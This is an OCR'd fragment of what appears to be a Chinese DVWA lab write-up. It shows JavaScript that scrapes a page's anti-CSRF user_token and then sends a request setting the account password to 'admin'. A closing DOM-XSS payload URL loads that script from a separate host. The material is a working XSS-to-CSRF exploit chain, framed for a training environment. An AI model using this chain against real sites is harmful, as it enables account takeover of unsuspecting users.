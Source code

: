 }else{  
  
// IE6, IE5  
  
xmlhttp=new ActiveXObject("Microsoft.XMLHTTP");  
  
}var count = 0;  
  
//页面加载完成后执行函数  
  
xmlhttp.onreadystatechange=function(){  
  
//判断请求已完成并且响应就绪状态码为 200 时执行代码  
  
if (xmlhttp.readyState==4 && xmlhttp.status==200)  
  
{//页面内容存储到 text 中进行匹配 token  
  
var text = xmlhttp.responseText;  
  
var regex = /user_token\' value\=\'(.*?)\' \/\>/;  
  
var match = text.match(regex);  
  
console.log(match);  
  
//弹出 token  
  
alert(match[1]);  
  
var token = match[1];  
  
//定义 payload url 并绑定 token 为我们从页面匹配到的 token 并且定义新的密码，新密码是  
  
admin  
  
var new_url = 'http://192.168.1.63/DVWAmaster/vulnerabilities/csrf/?user_token='+token+'&password_new=admin&pass  
  
word_conf=admin&Change=Change'  
  
//GET 方式提交一次 new_url  
  
if(count==0){  
  
count++;  
  
xmlhttp.open("GET",new_url,false);  
  
xmlhttp.send();  
  
} }  
  
};  
  
//GET 方式提交 theUrl  
  
xmlhttp.open("GET",theUrl,false);  
  
xmlhttp.send();  
  
  
然后构建payload  
  
192.168.0.107/DVWA-master/vulnerabilities/xss_d/?default=English#<script src="http://192.168.0.106/csrf.js"></script>  
  